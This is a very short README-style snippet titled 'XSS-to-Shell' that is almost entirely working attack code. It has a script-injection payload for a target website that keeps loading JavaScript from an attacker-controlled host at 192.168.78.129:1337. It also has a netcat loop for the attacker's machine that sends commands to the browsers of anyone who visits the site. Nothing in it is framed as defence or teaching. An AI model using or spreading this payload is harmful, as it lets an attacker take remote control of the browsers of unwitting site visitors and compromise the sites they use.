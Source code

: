 # XSS-to-Shell

Website to attack
<script>setInterval(function(){d=document;z=d.createElement("script");z.src="//192.168.78.129:1337";d.body.appendChild(z)},0)</script>

Attackers machine
while :; do printf "@x11>$ "; read c; echo $c | nc -vvlp 1337 >/dev/null; done
